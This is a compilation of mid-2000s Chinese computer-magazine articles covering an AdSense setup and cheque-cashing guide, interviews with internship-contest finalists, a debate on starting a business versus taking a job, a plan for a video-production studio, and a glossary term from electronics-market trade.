这里要注意，在选择所需要的账户类型时，应选择“个人帐户或基于SSN（美国社会安全号）的独资公司帐户”（见图3）；在输入账户详细信息时，姓和名应输入完整的中文拼音，地址应输入英文地址（见图4）。在姓名方面，外国人习惯是名（First Name）在前，姓（Last Name）在后，所以要注意顺序。英文地址的翻译原则是先小后大，如：x x号x x路x x区；而中国人喜欢先说大的后说小的，如：x x区x x路x x号。当中的区名、路名、公司名、村名等均不用翻译成统一的英文，只要照写拼音就行了。现在每个城市的中国邮政信件分拣中心都有专人负责将外国来信地址翻译成中文地址，并写在信封上交下面邮递员送过来。不过，你的邮政编码一定要写正确，因为外国信件中间的几道邮政环节都是靠邮政编码区域投递的。如果你的英文不大好，可以通过http://www.netat.net网站，将你的中文地址在线翻译成英文地址，最后让懂英文的人确认一下地址有无错误。

#### 小提示
常见地址的中英文对照

- 室/房 Room
- 村 Village
- 号 No.
- 路 Road
- 楼/层 F
- 住宅区 Residential
- 小区 Quarter
- 巷/弄 Lane
- 单元 Unit
- 楼/栋 Building
- 街 Street
- 镇 Town
- 区 District
- 县 County
- 市 City
- 省 Prov.
- 信箱 Mailbox
- 甲/乙/丙/丁 A/B/C/D

在你确认自己的电子邮件地址后，Google AdSense将审核你的申请，并在2~3天内通过电子邮件给你发来确认信。如果你的申请得到批准，则可以登录到自己的AdSense账户，开始使用此计划。

### 使用Google AdSense

#### 第一步：启用账户

请访问https://www.google.com/adsense?h1=zh_CN，然后使用申请中所提交的电子邮件地址和密码登录到自己的账户，并选择同意AdSense条款。

#### 第二步：将AdSense代码粘贴到你的网页

只需按照“广告设置”中的“广告布局代码”页和“搜索代码”页中的说明进行操作（见图5）。即可将Google HTML代码复制并粘贴到你的网页的源文件中。几分钟后就会开始向你的网站投放Google广告和提供AdSense for search。

如果你的网站不在Google AdSense的索引中，则Google可能需要花费数小时或更长时间才能抓取你的网站列入索引。在抓取你的网站前，Google AdSense可能展示公益广告或者你指定的替代广告，但这些不会增加你在AdSense计划中的收入。

将AdSense for search代码加入自己的网页后，会立即生成AdSense for search框。由于搜索结果显示在由Google托管的网页中，因此，如果存在针对特定查询的广告，就会立刻展示相关性较高的广告。

#### 第三步：查看结果

广告开始投放后，你就可以通过自己账户中的在线报告随时查看收入情况（见图6），这里会显示网页展示次数、点击次数、网页点击率、网页eCPM和您的收入。

#### 小提示

- 每间隔一小时，AdSense将更新一次数据。
- 由于Google的服务器位置在美国，所以我们要在下午4:00后才能看到昨天的完整数据。

到底Google AdSense广告获利的盈利是如何计算的呢？先让大家看以下三个公式：
网页eCPM = 您的收入 ÷ 网页每千次展示次数（网页展示次数 ÷ 1000）
网页点击率 = 点击次数 ÷ 网页展示次数
您的收入 = 每次点击费用之和
相信大家都看清了这几个名词之间的关系。网页展示次数、每次点击费用取决于网站的行业、内容和人流。

网页eCPM（有效的每千次展示费用，Effective CPM）：每一千次展示的费用。从发布商的角度来说，每千次展示费用是一个非常有用的比较不同渠道和广告计划的收入的方式。它是由总收入除以千次展示数计算得出。

网页展示次数（Page Impression）：广告单元在发布商的网站上每展示一次，就会计为一次网页展示。在计算 AdSense 发布商的报告时，会使用网页展示次数，而不是广告展示次数。

点击次数（Click）： 在 AdSense 发布商报告中，一次点击对应于用户对发布商网页上任一广告的一次点击行为。“点击次数”列可能还包括被认为是无效的点击次数，无效点击次数不会产生收入。对公益广告的点击不会包含在发布商的报告中。

点击率（ClickThrough Rate, CTR）： 在 AdSense 发布商报告中，点击率是广告单元点击次数除以广告单元展示次数所得到的比率。

您的收入（Your Earnings）： AdSense 发布商报告中的此列显示所选渠道的收入或是账户的汇总收入。收入数字不是最终数字，还可能因发生无效点击、发生费用或者扣除某些金额而作调整。

每次点击费用（Cost-per-click, CPC）： 每次点击费用是每次用户点击广告时其所属广告客户要支付的费用。

### Google 支票的托收与兑付

你可以通过 Google AdSense 获得多少收入，这一点取决于你每张网页的内容或你的用户输入的搜索字词，以及是否存在相关的 Google 广告。

#### 1. 支票寄达

除非双方书面（包括电子邮件）同意采用其他方式，否则在向你的网站或 AdSense for search 结果页投放 Google 广告的每个日历月末，如果你的收入余额达到 100 美元或更多，Google 会在大约 30 天后将支票寄送给你。如果你的账户余额不足 100 美元，Google 会在你的余额达到 100 美元的第一个月后大约 30 天，向你寄送美元支票。余额由 AdSense 和 AdSense for search 页的总收入构成。

笔者的网站从 2004 年 12 月 1 日起，至 2005 年 1 月 31 日止，收入达到 186.23 美元，登录 Google AdSense 后，在“我的帐户→付款历史”中，就可以看到付款时间为 2005 年 2 月 24 日（支票签发时间）、付款为金额 186.23 美元等信息。在 2005 年 3 月 9 日时，笔者收到一封装有 Google 支票的信件（见图 7），从邮戳上我们看到美国寄出的时间为 2005 年 2 月 25 日，15 天左右寄到。

Google 支票是美国花旗银行签发的，上方是账单，下面的三分之一才是支票（见图 8）。呵呵，笔者收到这张支票时，还真有点不习惯，国内的支票都有盖财务章和法人代表章，而 Google 这张支票却没有任何印章，上面记载着 Google 公司名称、地址，开户银行，支票号码，支付金额，支票接收人名字、地址，以及一个电子签名。

#### 2. 办理“光票托收”

然后拿着这张支票正本（票据抬头人应为委托人本人）和有效身份证件到当地中国银行可以办理“光票托收”业务的网点办理。

> 小知识
光票托收
光票托收就是银行接受你的委托，并利用银行广泛的国外代理行关系，将境外开出的不能在境内办理贴现的票据及其他金融单据，邮寄给付款人，提示其付款并收回款项的服务。办理该业务需时较长，通常为 30 天~40 天。

此时，银行会要求你填写“托收委托书”（见图 9）、并在“客户委托我行托收美国境内付款的支票须知”（见图 10）签上你的名字，然后在支票的背面“背书”栏填写与票据抬头人一致的签名，背书不可为私人印章。

托收过程中所产生的费用，均由委托人承担。个人外币票据（除外币现钞以外的其他票据）按托收金额的 0.1%，最低 20 元/笔，最高 250 元/笔；另收邮费/退票费 10 元/笔（见图 11）。

如果对方银行承付顺利的话，大约过 45 天，银行会通知你取款。到时，你要带上有效身份证件和“托收申请书”的客户回执取款。

### 提高 Google AdSense 收入的技巧

我们收集了这些易于实施的技巧，旨在帮助你最大限度地发挥 AdSense 增加收入的潜力。大家也不要试图恶意点击广告，任何作弊和欺骗的方法都行不通，Google AdSense 中文地区网站的网页点击率为 0.22 平均值，凡超过此值，均会被 Google 视为观察对象。如果发现有欺骗点击作弊的现象，Google 随时可以保留付款（自 Google 对其可能违反条款或政策这一情况展开调查之时起）、追回发布商的账户收入和（或）向广告客户退回此发布商网站或 AdSense for search 结果页的广告点击费用。另外，如果发布商有与 Google AdWords 计划相关的任何逾期欠款尚未支付给 Google，Google 将保留停止付款的权力，直至未结欠款全部结清。所以，与其花精力寻找作弊的方法，还不如将更多的精力花在提高内容质量和网站浏览量上。

- 1. 在明显位置显示广告
将广告放置到明显位置（网页上无须滚屏即可看到的部分），更便于访问者看到广告，从而提高点击机会。

- 2. 让广告配色与网页布局相配
对广告单元尝试使用自定义的配色，这有助于你确保广告的文字、背景以及边框颜色对网站外观起到增强作用。你可以从大量的颜色中加以选择，形成自己的自定义调色板，或者选择 20 多种预先定义的配色。

使用调色板时，笔者建议：广告的背景色要与网页的背景色相同或类似；为广告边框选择一种在你的网页上非常突出的颜色；为广告标题选择一种与网页文字相类似的颜色；为广告网址选择一种与网页上其他链接相类似的颜色。例如，在笔者在网站首页，网页文字的颜色以深灰色调为主，因此在“广告布局代码”的“调色板”中就选择“Steely Gaze”样式。由于笔者想将 Google AdSense 通栏放在网页中，横向尺寸是 760 像素，而 Google AdSense 的横向最大尺寸为 728 像素，此时大家会发现 Google AdSense 广告的边框明显小于网页的横向宽度，因此笔者就将“google_color_border = "CCCCCC";”源代码改为“google_color_border = "FFFFFF";”，也就是将边框的颜色也改为白色，这样就和我的网页就形成统一的风格（见图 12）。

而且不会破坏网站的整体布局。同样，如果你选择带背景的广告代码，你可以将“google_color_bg = "FFFFFF";”改为跟你的网页同一背景颜色的值即可。网页样式各有不同，因此应该尝试使用不同的广告格式，以便与不同的网页布局相配。

- 3. 将 AdSense 广告置于文字比较丰富的网页上
将 AdSense 广告代码添加到你的网站上主要内容都是文字的网页上。Google 只使用文字来判断网页的内容。因此，尽管 Google 的定位技术已经过了优化，能够将广告定位至内容经常更新的网页，不过，那些有大量图像的网页或带有 Flash 等动态媒体内容的网页仍可能无法投放相关广告。

- 4. 生成简单明晰的网页
人们通常只用不到一分钟的时间来快速浏览一个网站。确保网站的访问者能够找到所需内容，而不是被一团混乱所包围。一个设计良好的网站应同时具有可读性高、导航方式清晰以及内容加载速度快等优点。

相对于背景色，字体颜色一定要方便读取。使用便于肉眼识别的字体大小，并利用项目符号和水平线等直观的提示方便访问者理解你的网站。

（北京 怪鸭兽）# 改变你一生的命运——专访首届“升存者”三名入围选手

“升存者”活动是《电脑爱好者》杂志社专门策划的大型人才招聘类活动，旨在为广大生朋友和求职者搭建一个展示才华的平台，为大家提供一个参与职场磨砺、体验职场生存的机会，帮助那些为求职而奔波的朋友树立就业信心，调整求职心态，让大家能深入和全面地了解“大企业”的招聘理念、用人机制和企业文化。第二期“升存者”活动将在近期全面启动，让更多的人感受活动的乐趣，本刊记者专访首届“升存者”活动的三名入围选手的活动参与感受。

# 李雅楠: 志在充实自己

原就学学校: 沈阳建筑大学01级
目前就职单位: 北京《电脑爱好者》杂志社 市场推广部

我在《电脑爱好者》2004年第21期的《升“在华硕”一文里，曾经谈了很多在华硕实习时的感受。不仅结识了两个好朋友（其他两位首届“升存者”入围选手），很难想象在万元奖金面前，在残酷的竞争之中，三个人能那么团结，那么无私地互相关爱，这也体现了参加“升存者”的最终目的绝对不是为了奖金，而是在难得的大公司实习生活中充实自己。

参加这次活动对我就业的影响也是非常大，正是参加了“升存者”，才让我们有机会进入全国最大的IT类平面媒体，而我们才刚刚走出大学校园。

现在，作为首届“升存者”活动的“参与者”与第二届“升存者”活动的“策划者”，让我可以更加从容地来完善这个活动。我可以负责任地告诉大家：第二期“升存者”的参与方式将更加丰富，选拔方法将更加公平。同时，受益人群也将远远大于去年。去年的兴奋与荣幸变成了今年的压力与责任。我相信，参加“升存者”绝对可以改变你一生的命运，即使你不是“升”得最高的那个人。

在华硕与《电脑爱好者》之间我选择了后者，是因为我喜欢媒体这个行业，是因为我很难忘掉那个我奋斗过的，从十几人成长到500多人的文学社团；忘不掉我们那本从“自娱自乐”到“校刊”的杂志。我想让我的梦想在北京《电脑爱好者》杂志社得到延续；也让更多人的梦想因参加“升存者”而展翅飞翔。

# 耿强: 团队合作比实力更重要

目前就职单位: 上海盛大网络发展有限公司北京分公司 网站推广
原就学学校: 成都电子科技大学01级

在首届“升存者”活动中，我学到许多在学校里根本学不到的东西。说句心里话，我真的很感谢华硕公司和《电脑爱好者》杂志社给我那次机会。在“升存者”的经历，我想任何参加了的人都不会忘记，那是一个对自己很好的激励和鞭策。

记得当时，我们三人刚去的时候，我拼命地想表现出自己最优秀的一面。当时我对自己说，一定要让自己做的最好，不能输给别人。所以，在第一次开会的时候，我便提出了自己的创意，想举办一个Flash Banner比赛，我的提议很快被领导同意并采用。于是我开始精心地策划整个比赛的过程，大到整个比赛的网站设计、网站宣传；小到联系每个获奖选手，分发奖品等等。记得当时为了做这个关于比赛的网站，那天一直做到凌晨3点多才睡，然后早上7点多又强睁开眼睛去上班。我一个人就这么埋头忙碌着，快乐着……

在华硕的一个月时间如流水般地这样过去了，转眼实习期也快结束了，我以为自己已经做到最好了，可是最后公司对我的点评是论实力，我的确很强，但太自我了。后来，李伟（华硕品牌中心高级职员）找我谈了一次话，令我永生难忘。原来一个大公司不是绝对需要一个有很强实力的人，但是绝对需要一个有团队合作精神的人。我就是刚进公司的时候太爱表现自己，很多事情根本没和公司的人一起合作商量，我就是忽略了整个团队。

回成都后，我一直谦虚地做人和学习，不断完善自己。有一天，接到盛大网络公司的电话，让我去北京分公司负责网站推广。进入盛大网络后，我仍然不忘在华硕时的教训，一直谦虚工作，和同事打成一片，告别以前独来独往的工作模式。慢慢的，我体会到和大家一起合作做一件事情是多么愉快和开心。同时，在一个大公司中，团队合作精神是多么重要。这些，都是我从“升存者”比赛学到的。这样，在进入盛大不到一个月，我们团队便超额完成目标，被盛大网络CEO陈天桥先生记一次功绩。

转眼，第二届“升存者”比赛即将开始了，我希望大家都踊跃地去争取这个很好的学习的机会，结果并不重要，重要的是在过程中让你学到的东西会影响你的一生。

# 黄家奇: 诚信为本

目前就职单位: 奇瑞汽车公司
原就学学校: 哈尔滨工业大学01级(威海)

时间如白驹过隙，转眼间去年暑假在“华硕”电脑公司为期四周的实习生活已成为回忆中的往事，但对我来说，这是从入学的三年以来，经历最密集、印象最深刻的一段。不管从《电脑爱好者》杂志社到“华硕”公司，从科贸电子城路演到2004中韩电子竞技比赛，还是从三个来自祖国不同地域的年轻人走到一起，到最后北京的分别，无不留下了令我刻骨铭心的纪念。

当中，给我感触最深的还是整个活动中对诚信(Honesty and Integrity)的诠释，在来到北京的那天晚上，Candy 和 Waylie 姐来看我和雅楠，也许是大家聊得比较投机，Candy姐走的时候把她的钱包落在了我们住的房间，当时我第一个发现，于是马上发短信给Waylie姐（因为当时Waylie姐和 Candy姐住在一起），让她告诉 Candy姐不用太担心，我会保管好她的钱包的。当时雅楠说了一句，是不是 ASUS 特意考验我们的？这应该是第一次在活动中诚信给我留下了印象，还有一次在我和ASUS品牌中心的李伟聊天的时候，不经意间，李哥提到了品牌中心总监Nina，说道，现在能像她那样保持正直的人，已经不多了。从Nina姐和周围的同事身上，感到的那种诚信的魅力，这算是我再次体味到了诚信在一个人的职业成长道路上面的重要。

最后，想对那些即将参加第二届“升存者”活动的参赛者想说上一句话，全力展示自己，比赛结果是次要的，但是你在比赛过程中所做的一切一定要证明你自己是一个正直的人，乐观的人。

（本刊记者 王赛晖）

# 创业 VS. 就业——观点大碰撞

人在职场，往往会有两种选择：自主创业和找个工作就业。两者相比，各有优缺点。作为每个读者，每个人心中的想法会有所不同。本文从探讨的角度出发，讨论创业和就业的各自理由，说不定会给你带来一种思索！

# 观点碰撞之一

创业方：就业就等于放弃了自己的力量。
就业方：工作是衣食父母。

观点分析：在网上曾经有人算过这么一笔账：“人这一辈子要花多少钱？”，很多人可能都没仔细计算过。有人曾做出一份《金钱规划》，讲的是普通的夫妇俩，到底要多少钱才够过一生，答案是397.2万元。虽然该文是按经济非常发达地区的平均水平制定的，但仔细一算，两“公婆”在广州生活一辈子的花费也不少，如果维持中等生活水平，大约要花290万元，如果以夫妻双方都工作35年计算，两人年收入需要在8万元，才可以满足需要。但实际上，对普通市民而言，维持这样的收入水平还是有一定困难的。

工作从某种程度上说确实是你的衣食父母，但依靠企业拿薪水，将你的自身潜在的赚钱力量放弃了确实不好。就业用直白的话说，就是拿有限的钱，过上有房住，有饭吃的生活。在职场上打造成金领还是比较困难的。每个人都有自己的潜能，你开发了自己的潜能吗？记得刘韧的《知识经济》一书中写过这么一句话：“外企是绝对不允许员工长时间拥有企业的股权！”一句话描写出了企业和员工之间的关系，尽管各位读者现在拿着高薪，但那只是对你劳动的一次性报酬。你抓住了自己生命中的股权了吗？

# 观点碰撞之二

创业方：创业可以更好地提升自己的能力。
就业方：就业可以为创业打下基础，就业可以先积累人脉和资金，并且帮助你接触社会。

观点分析：人的才能要在一定的压力下才能发挥出来，在就业的环境和创业的环境中，无疑创业的难度更要大一些。在公司里工作，你只需考虑将自身的工作做好就可以。而创业就不一样了，创业的时候你要面对资金、技术、市场等一系列问题，这些问题会带给你足够大的压力。而这些压力是你在工作中所无法体会到的，也正是这些压力可以进一步提高你的能力，让你感觉到什么是真正的创业。当然本身在企业里工作也能提高自己的能力，也可以积累一定的人脉。但是这些都不如创业来得更加直接和干脆。

# 观点碰撞之三

创业方：创业有个黄金期，是在25～35岁之间，如果错过这段时间就不太好，所以创业要趁早。
就业方：如果就业在一家好公司，薪水高可以避免一些创业的高成本，而且收获不小。

观点分析：人与人之间根本差别并不是天赋、机遇，而在于有无目标。一个有决心的人，将会找到自己的道路。我觉得，25岁之前是求学探索阶段；25～30岁要了解你想做什么，切入相关行业开始创业；在30～35岁之间，是创业的关键时期；35～45岁是大发展大收获阶段。人生发展阶段图示要使目标能够实现，就必须将目标分解量化为具体的行动计划，使自己知道现在应该为目标做什么，使目标有了现实的行动基础。

如果你已习惯朝九晚五的上班族生活，整天上班、下班，日复一日，任凭岁月消逝，而且满足于这种状态，那么你一定成不了富翁。一个积极想要赚钱的人，绝不以温饱为满足，一定想要让生活多姿多彩，天天充满赚钱的活力。具备了这个要件，再冷、再热的天气，再苦、再累的工作，你都会心甘情愿地去做，而当你养成了这个赚钱“习惯”后，财富自然愈来愈多。一般就在公司工作而言，除了在市场部门搞销售工作的员工明白钱都是靠自己从市场上圈来的道理之外，财务、技术、行政等部门的员工更多的只是关心公司发多少钱？而并不会去培养一个赚钱的习惯。

# 观点碰撞之四

创业方：有了钱才可以不为钱工作。
就业方：就业比创业要来得实际又实惠。

观点分析：现代社会流行一个名词叫做“有钱又有闲”，这也确实写出一些社会现象。笔者认识一个家族企业的女老板，这位女老板除了在自己的公司上班之外还努力学习英语并在浙江大学学习MBA。一般说一个工薪阶层是无法达到这种境界，由于工作忙碌无暇充电，导致自己的竞争力下降。就业从某种程度上来说，确实是要来实际又实惠。其实每个人都渴望自由，当你有了钱之后就可以拥有更大的自由，不用朝九晚五地赶去赶来了。

# 观点碰撞之五

创业方：创业可以避免在职与退休在家的巨大落差。
就业方：就业可以给你带来安全感。

观点分析：有一次在公司的酒桌上，事业有成的公司副总讲了这么一件事。他所认识的一个领导退休在家只拿1000多点的退休养老金。天气冷了，开个空调手都要发抖。而这位副总情绪也比较低沉，他说人活着还是节俭点好。这也确实能理解，在职与退休以后的巨大落差是客观存在的。如果你创业了，拥有了你自己的公司那么就不存在着退休的问题了！你可以把自己的公司交给子女经营，而不会产生开个空调手都要发抖的现象。就业确实可以给你一个安全感，如果你创业成功就不会存在着失业和退休的问题了。

# 观点碰撞之六

创业方：创业可以帮助你跳过一些层次，让你直接进入管理层，避免在单位里的一些勾心斗角。
就业方：就业可以给你提供更好的平台。

观点分析：不论是创业也好，就业也好，“办公室政治”永远都是存在的，在企业里想发展当然会有勾心斗角。这种内耗会打击员工的忠诚度，打击一个人的工作热情。在企业里，努力工作得不到回报的现象确实是存在的，而领导不公的现象也是客观存在的。在公司工作，和同事的关系都是利益关系，有的时候同事之间的友谊也是很脆弱的。当然创业也会让你体会到生存困难等一系列难题，创业和就业都有一本难念的经。

# 观点碰撞之七

创业方：创业可以赚更多的钱。
就业方：就业与创业相比，风险更小一点、更加稳定一点。

观点分析：创业并不一定会赚到比就业更多的钱，而且破产和亏损的现象都是存在的。但是创业提供了一种可能，那就是让你“长大”的可能，创业的机遇和挑战都是并存的。对就业而言，可以用一个简单的“熬”字来形容。地产商人潘石屹在接受记者采访的时候，有一段话读者引起注意。潘石屹：其实我最早是准备在机关干一番大事业的，我和那个时代的许多青年一样很勤恳，早早到办公室，扫地，打水，给老同志沏茶。我当时还被确定为第三梯队呢！不过，我这人总喜欢有些变化。当时，“改革”、“开放”这些新词儿、新观念挺吸引我的。记得一天我帮单位里新分配来的一个女大学生去领办公桌，她左挑右选了一个多小时。我说，差不多就行了，不就一张办公桌嘛！结果那个女大学生说，你可不知道，我刚毕业分配来，有可能这办公桌就陪我一辈子呢！她这句话给我震动特别大。难道我一辈子都得坐在这办公室里？我说，不行，我应该有些变化。就这样，我就走了。

也许读者看了本文，不会得出一个到底是就业还是创业的观点。因为不管是创业还是就业，都是为了解决生存和发展，两者的目的都是一样的。创业与就业并不矛盾，笔者也认识不少在职创业的朋友，他们在拿薪水的同时还拥有自己的一番事业。
（梦）

# 留给未来的记忆——摄像工作室创业方案

随着时代发展、社会进步，人们生活越来越讲究品位了。结婚、生日、毕业留念等都要拍照，而且很多人都把这些人生具有纪念意义的瞬间摄制成影像资料，制作成优美的VCD光盘，作为永恒的纪念。虽然有的家庭也拥有了摄像机，但无论是从拍摄到制作都不专业，很多人都愿意请一位摄像师来拍摄、制作光盘，由此相对技术和设备更专业一些的摄像工作室悄然兴起。

# 本文人物介绍



姓名：王栋
年龄：34岁
职业经历：原为影楼专职摄像师，后辞职，从事摄像、VCD制作等职业，2003年创办艳艳影视制作中心。

# 技术与经验同样重要

本文的主人公王栋先生，在2003年创办影楼制作中心。以前，他是在一家地方电视台做过兼职摄像，后来又在一家影楼做摄像师，到现在成立这家艳艳影视制作中心，从业也有七八年了。

很多人觉得做这一行需要很专业的水平，王栋先生坦诚道：“那倒不是，我觉得还是经验更重要一些。其实我原来就喜欢摄像，也没有受过什么专业的培训、学习。经验就是在实践过程中一点一滴地积累起来的。影楼中婚礼摄像比较多，从那时候开始我就慢慢地注意学习一些摄像技巧和其他一些东西。”

就像一部好的影片除了导演、演员之外，摄像师、录音师、后期制作等等很多工作也是必不可少的。以婚礼摄像为例，这是属于纪实性很强的摄像，拍摄要拟定一个计划，从开始拍摄新房、化妆、花车接人、新娘家、接回路上、婚礼前酒店、婚礼过程、到现场采访结束，这是一整套程序，一般不能打乱。后期制作也尽量保持原汁原味，不需要过多的“创作”和“虚构”。在拍摄前应拟好拍摄计划，了解新人对摄像的要求，认识新人双方的家属，以避免遗漏拍摄对象；还要注意保持人物行为动作、现场音响和语言的连贯；花车接人途中保证镜头画面的稳定等等，摄像师在一定程度上很像司仪，你要把整个活动串联起来。

# 摄像工作室的业务指导

# 1. 学生毕业摄像

学生的观念比较时尚，也容易接受新的事物，可以考虑和一些学校联系，拍摄毕业典礼那一值得留念的时刻。由于学生还没有经济来源，因此拍摄这样的业务收费就相对低廉一些。
毕业摄像最好还能拍摄学生们的一些活动，如同学生们在整理书籍、衣物，准备离开校园时的情景，这些都是很好的素材。

# 2. 家庭纪念日与公司会议摄像

随着生活水平的提高，人们对于精神上的享受格外注重。影像资料越来越受到人们的重视和欣赏，这倒是一个趋势。比如老人过生日、小孩子过满月、结婚纪念日等等这样一些在生活中比较重要的日子，很多人都愿意请摄像师拍下这个具有纪念意义的过程。有些经济条件较好的家庭，外出旅游也带上一个摄像师，把旅游的全过程录下来，然后制作成光盘。另外，很多单位基本没配备摄像机，遇到一些重要的会议时，也希望能将此会议全程拍摄下来。

如果你的摄像工作室刚成立，知道的人很少，业务量也比较小。其实，不是市场没有这个需求，而是没有去把这个市场激活。可以利用地方电视台点歌栏目，摄像赠点歌，点歌带动摄像。每位到我们这里来摄像、做光盘的客户我们都会送上一首祝福的歌曲，然后点歌业务量大了，电视台又可以每次给愿意放录像客户几分钟放拍自己的影像的时间，这样自己的身影全市的人都能看到，共同分享自己快乐。

# 3. 相片VCD

前面也说了，很多家庭都比较重视精神上的享受。前期可以考虑和一些影楼合作，推出“婚纱摄影送相片VCD”、“宝宝摄影送相片VCD”等活动。让影楼拍摄完婚纱或宝宝的相片后，将相片处理成相片VCD。而制作个性化的相片VCD也比较简单，一般通过一些软件，然后套用模板就可以实现。当然，如果是与影楼合作的话，收益会低一些，因为这是与影楼的拍摄打包的，影楼也想节约一些成本。

# 4. 个人MTV

MTV是英文Music TV的缩写，意为“音乐电视”。用MTV的形式表现各式各样的情感，是现今年大都市的流行趋势。有关人士认为，生活水平提高后，不同年龄阶段的人都非常重视生活质量。人们用来记录生活的传统手段是照片，而照片有一定局限性，如没有动态效果，没有声音，表现主人公形象缺乏个性和整体感等。而MTV就可运用大量的镜头切换来展现主人公内在和外在的美，再通过声音的配合，使画面效果更加丰富。特别是随着数字技术的发展，后期制作还可依靠电脑来完成。

# 摄像工作室的软硬件配置

如果你想成立摄像工作室，那么设备的投入是必不可少的。当然，高端和低端的价差达数十倍，大家可以量力而行。

# 1. 数码摄像机

就数码摄像机而言，现在市场上销售的任何一款家用数码摄像机都可以进行摄像。选用小型数码摄像机时，不仅要考虑视频质量，还要考虑一些人的面子，这都是我自己亲身经历的事情，绝非空穴来风。但面子问题很多是由被拍摄者造成的，一看你拿了个小机器来，不管这部机器的影像质量如何，你到底会不会拍，首先就觉得你不专业，给摄像师造成不必要的思想压力。既然存在上述问题，那我们怎么样来解决它？我们当然有既能保证视频质量又能兼顾一些人面子的办法。如果，你想让别人对你有一种专业摄像师的感觉，可以考虑一些肩扛大机器，例如松下AGDVC15 3CCD数码摄像机（见图1），很适合婚礼摄像，视频质量也不错，价格也比较适中，约在1万多元。当然，如果你不是很在意这种感觉的话，可以选择五六千元的家用摄像机。



**小提示**
这里有一点要说明的是，许多消费者不明白数码摄像机的CCD技术指标应该怎样去理解。很多人只看中它的像素，而忽略了它的尺寸。但对于购买者而言，首先看中的是CCD的尺寸，其次才是像素数。举例来说，一部采用133万像素1/3英寸CCD的机器，它实际上的拍摄效果相当于采用155万像素1/4英寸CCD的机器。

# 2. 电脑的配置

至于电脑，一般来说配备Pentium 4 2.8C、i865PE主板、512MB内存（最好配1GB）、160GB硬盘、R9600或GF FX57500级别的显卡、16× DVD刻录机，其他的就是一般家用电脑就行。配置较高的PC系统能提高采集和编辑的速度，充分发挥它们的性能。

# 3. 视频采集卡的选择

另外，比较重要的是视频采集卡了。视频采集卡的种类繁多，按照其用途可以分为广播级视频采集卡、专业级视频采集卡、准专业级视频采集卡和民用级视频采集卡（即IEEE 1394卡）。它们的区别主要是采集的图像指标不同，广播级视频采集卡的特点是采集的图像分辨率高，视频信噪比高，视频文件庞大，每分钟数据量至少为200MB。广播级模拟信号采集卡都带分量输入输出接口，用来连接分量摄/录像机。专业级、准专业、民用视频采集卡的级别比广播级视频采集卡的性能稍差，输入输出接口为AV复合端子与S端子。对于摄像工作室来说，主要选择民用级视频采集卡或准专业级视频采集卡即可。

**(1) 民用级视频采集卡**
民用级视频采集卡说白了，其实就是IEEE1394卡。因为IEEE1394卡的绝大多数用途是接数码摄像机，所以，我们通常把它看作采集卡了。它的主要作用是将DV视频数据从数码摄像机传送到电脑的硬盘中，相当于把文件复制一遍。DV数据的压缩在数码摄像机中完成，与模拟采集不同，它在传送数据的过程中没有任何质量损失。如果使用的是数码摄像机，完全不用再考虑模拟视频采集方案。普通IEEE1394卡在影像传输的质量方面与价格较高的非线性编辑卡没有区别，同样能够采集标准线数的数字影像（PAL制为720×576， NTSC制为720×480），但由于是用软件实现编解码，所以处理速度相对来讲要慢一些。使用IEEE1394卡可以将编辑好的节目通过IEEE1394卡的连接线输出录制。

常见的IEEE1394卡使用的芯片主要有TI、朗讯、NEC等，市场上的品牌主要有品尼高、友立、宝石、天敏等等，还有一些厂家的主板上直接嵌入了IEEE1394接口，可直接使用。如果你想用好一点的民用级视频采集卡，推荐你用品尼高Studio Deluxe（见图2），视频编辑功能比较强、音频编辑也不错，有上百种HOLLYWOOD特技及专业字幕制作。



**(2) 准专业级视频采集卡**
与民用级视频采集卡相比，许多DV爱好者更青睐于具有硬件编码功能的准专业DV编辑卡，它能通过硬件将采集的视频信号直接压缩成MPEG-1或MPEG-2格式的文件。在国内市场上，基于PC平台的准专业DV编辑较为著名的产品有：品尼高PRO ONE、Matrox RT2000、Canopus DVStorm等。这类卡的价格一般在4500~8000元之间。

# 4. 视频编辑软件

视频编辑软件的品种繁多，许多非线性编辑设备厂商专门为其编辑系统独家配置了软件，但不具有通用性，也有一些软件能够适应大多数的非线性编辑环境，其中常见的是Adobe Premiere等。

Adobe Premiere是Adobe公司推出的影视合成软件，是PC机上影视后期制作的主流软件。它具有视频编辑、节目预览、视频和音频的采集和输出等功能，能够轻松地捕获数字视频，对于那些拥有低档捕捉卡或简单的IEEE1394卡的人来说非常实用。缺点是缺少一些不常用的特技，生成的速度较慢。若配合高性能的硬件设备，Premiere与Affects配合使用，可以满足高级用户在后期处理中工作效率和视频质量的需求。

**小提示**
通过以上的配置，在电脑上就可以进行视频采编了。如果需要经常制作影像，应将计算机专门应用于视频编辑的工作。如果是一般家用计算机，则应重新安装一个新的操作系统。这样可确保在相对稳定的系统中进行视频编排。在进行视频编辑时，还应注意：关闭能源管理，将电源使用方案选为“一直开着”；关闭任何不是必需的后台程序和服务，如屏幕保护和病毒防护软件。以防止在采集或输出时系统突然进入睡眠或屏幕保护状态。

# 摄像工作室的从业建议

要做摄像这一行，首先你应该对它热爱，有兴趣就是成功的一半，因为兴趣是最好的老师。掌握一手娴熟的摄影技术是必备的基础了，还要具备一定的电脑水平，因为你要用到电脑进行后期VCD制作，所以这些东西都是需要学的，当然并不是要你成为专家，还是那句老话，只要够用就行。

具备这些只是技术上的条件，既然是一个生意了，还是要有做生意的思路，头脑要灵活，人脉要广一些，多联系一些影楼、学校、企事业单位，也可以和电视台建立合作关系，还有时下正在流行的摄制个人MTV等等，有些市场都是需要自己来开辟。做这一行有一个好处，就是可以不要门面房，或者在自己家里，或者租用一个单元楼，这样就可以省下一大笔房租开销。因为基本上也没有什么东西可卖，一切都是幕后工作者，这有点像SOHO一族的感觉，但绝对没有那么自由了。
（山东 王伟光 福建 斯佳丽 漫画 王子健）

**扎货**
词性：动词
行业：IT产品销售卖场
解释：柜台主在确定客户对某具体型号的产品具有购买意向之后，向其他柜台赊借该产品的行为。这种现象大量存在于电脑卖场的各商户和柜台之间，他们基本上是靠信用和“脸熟”来完成这种“同业拆借”的经营互助行为。一般在扎货的时候，由借方（柜台主或伙计）签字即可当场拿走货品。而结款则按一定的周期清算。
优点：（对柜台来说可以）保证客户能在同一柜台或店铺完成整个购买和攒机过程，而且可以少占用流动资金。
缺点：商家和柜台之间存在欺诈和被欺诈的可能。对客户而言，由于产品在达到自己手中之前经过了更多的销售环节，所以不太可能拿到最低的价格；同时，也容易引发售后服务纠纷。
实例：客户在A柜台攒机，指定要华硕某型号显卡，但A柜台销售的却是微星显卡。为了留住客户，A柜台即向专营华硕显卡的B柜台“扎货”，赊借来一块华硕显卡，完成了给客户的装机。事后，月底A柜台向B柜台结算该显卡的交易货款。

## 电脑爱好者合订本
